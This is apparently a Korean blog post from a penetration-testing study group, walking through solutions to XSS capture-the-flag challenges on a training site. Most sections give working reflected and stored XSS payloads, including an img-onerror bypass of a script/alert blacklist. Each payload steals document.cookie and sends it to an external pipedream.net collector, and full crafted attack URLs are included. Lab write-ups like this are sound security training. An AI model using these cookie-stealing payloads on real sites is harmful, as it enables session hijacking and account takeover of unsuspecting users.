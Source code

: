 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS"
excerpt: "모의해킹 취업반 스터디 7기 9주차"

date: 2024-12-18
last_modified_at: 2024-12-30

tags: [TIL, WEB]
---
```


# XSS 1
## notice_list.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-2.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-3.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-4.gif?raw=true)

# xss2
## notice_list.php의 search 부분 -> reflected xss
```js
');
let c = document.cookie;
console.log(c);
let i = new Image();
console.log(i);
i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + c;
let tmp=('
```

link: <http://ctf.segfaulthub.com:4343/xss_2/notice_list.php?option_val=username&board_result=');let+c=document.cookie;console.log(c);let+i=new+Image();console.log(i);i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;let+tmp=('&board_search=%F0%9F%94%8D&date_from=&date_to=>

# xss3
notice_list.php의 search 부분은 html entity로 치환
## mypage -> reflected xss

```html
<img src=. onerror='
let c=document.cookie;
let i=new Image();
i.src="https://eot2jevtyijbm2l.m.pipedream.net/?cookie="+c;'>
```
+ -> %2B

# xss4
## notice_list -> stored xss
script, alert <- black list filtering
`<img src=. onerror="prompt(1)">`

```html
<img src=. onerror="
let cookie = document.cookie;
let img = new Image();
img.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + cookie;
">
```

# xss5

# xss6
# login.php
```js
');
window.onload=function() {
    let c=document.cookie;
    let i=new Image();
i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="+c;
};
console.log('
```

http://ctf.segfaulthub.com:4343/xss_7/login.php?id=1');let+tmp="hello";let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Btmp;console.log('&pw=1
